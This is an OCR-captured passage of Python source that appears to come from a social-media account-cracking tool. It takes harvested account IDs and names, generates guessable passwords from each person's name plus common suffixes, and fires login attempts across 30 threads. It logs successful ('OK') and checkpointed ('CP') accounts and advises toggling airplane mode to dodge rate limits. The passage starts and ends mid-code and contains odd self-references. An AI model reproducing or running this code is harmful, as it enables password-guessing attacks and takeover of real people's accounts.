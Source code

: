 			elif 'free' in method:

				pool.submit(free,idf,pwv)

			else:

				pool.submit(crack,idf,pwv)

def name():

	clear()

	print(logo);print( '\n [] OK Result Saved To : \033[1;92mOK/%s\033[1;97m\n [] CP Result Saved To : \033[1;91mCP/%s\033[1;97m\n [!] \033[1;96mTurn Airplane Mode On/Off Every 5 Minutes\033[1;0m\n'%(okc,cpc))

	with tred(max_workers=30) as pool:

		for yuzong in id2:

			try:

				idf,nmf = yuzong.split('|')

				xz = nmf.split(' ')

				if len(xz) == 3 or len(xz) == 4 or len(xz) == 5 or len(xz) == 6:

					pwv = [name, xz[0]+xz[0],xz[0]+xz[1]+"12345", xz[0]+xz[1]+"786",xz[0]+xz[1]+"123",xz[0]+xz[1]+"1234"]

				else:

					pwv = [name, xz[0]+xz[0],xz[0]+xz[1]+"12345", xz[0]+xz[1]+"786",xz[0]+xz[1]+"123",xz[0]+xz[1]+"1234"]

				if 'mobile' in method:

					pool.submit(crack,idf,pwv)

				elif 'free' in method:

					pool.submit(free,idf,pwv)

				else:

					pool.submit(crack,idf,pwv)

			except:

				pass

def name2():

	clear()

	print(logo);print( '\n [] OK Result Saved To : \033[1;92mOK/%s\033[1;97m\n [] CP Result Saved To : \033[1;91mCP/%s\033[1;97m\n [!] \033[1;96mTurn Airplane Mode On/Off Every 5 Minutes\033[1;0m\n'%(okc,cpc))

	with tred(max_workers=30) as pool:

		for yuzong in id2:
